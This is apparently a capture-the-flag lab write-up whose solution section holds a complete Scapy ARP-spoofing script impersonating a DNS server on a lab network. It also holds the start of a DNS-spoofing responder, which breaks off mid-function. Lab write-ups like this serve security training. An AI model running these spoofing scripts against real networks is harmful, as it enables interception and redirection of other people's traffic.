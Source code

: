 **Solution**

I modified the sample traffic script in `/home/guest/scripts` so I could respond to the ARP requests. Once the ARP spoof was successful, I got a DNS query.

```python
#!/usr/bin/python3                                                                                   
# arp_response.py
from scapy.all import *                                                                               
import netifaces as ni         
import uuid                                                                                                      
# Our eth0 ip                        
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address    
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:03")
        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = 0x02
        arp_response.plen = 0x04
        arp_response.hwlen = 0x06
        arp_response.ptype = 0x0800
        arp_response.hwtype = 0x01
        arp_response.hwsrc = macaddr # "02:42:0a:06:00:03"
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        arp_response.pdst = "10.6.6.35"
        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    main()
```

```python
#!/usr/bin/python3
# dns_response.py
from scapy.all import *
import netifaces as ni                                                                               
import uuid                                                                                                                                 
# Our eth0 IP             
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr                
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53" # "10.6.1.10" 
def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=macaddr, dst="4c:24:57:ab:ed:84")   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src="10.6.6.53")          # need to replace IP addresses
```